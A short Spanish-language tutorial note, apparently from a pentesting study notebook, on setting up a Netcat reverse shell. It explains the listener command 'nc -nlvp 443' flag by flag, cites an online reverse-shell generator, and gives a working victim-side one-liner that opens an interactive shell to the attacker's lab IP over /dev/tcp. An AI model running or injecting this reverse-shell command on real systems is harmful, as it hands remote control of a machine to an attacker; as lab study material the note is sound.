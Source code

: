 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](Imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

**`nc -nlvp 443`**

<aside>
💡

`nc`: Invoca **la herramienta** Netcat.

`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](Imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](Imagenes/image%202.png)

![image.png](Imagenes/image%203.png)
